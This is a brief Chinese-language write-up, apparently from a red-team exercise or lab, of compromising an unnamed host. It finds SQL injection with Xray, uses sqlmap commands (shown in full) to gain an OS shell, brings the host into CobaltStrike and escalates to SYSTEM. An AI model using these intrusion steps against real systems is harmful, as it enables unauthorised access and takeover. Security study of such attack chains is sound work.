






> **Xray对某傀儡机进行漏洞扫描**

发现某傀儡机存在SQL注入漏洞



> **sqlmap对某傀儡机进行SQL注入**

```
sqlmap -r sql.txt -v 3 --batch --is-dba
```

通过`sqlmap`跑post包进行注入发现数据库为`SQL server`，权限为管理员



> **通过sqlmap获取shell**

```
sqlmap -r sql.txt -v 3 --batch --os-shell
```

通过`os-shell`执行`whoami`发现为普通用户权限



> **CobaltStrike上线提权**

1. 通过`os-shell`执行`powershell`一句话上线`CobaltStrike`



2. 以普通用户上线`CobaltStrike`



3. 通过提权插件进行提权，成功获取`system`权限

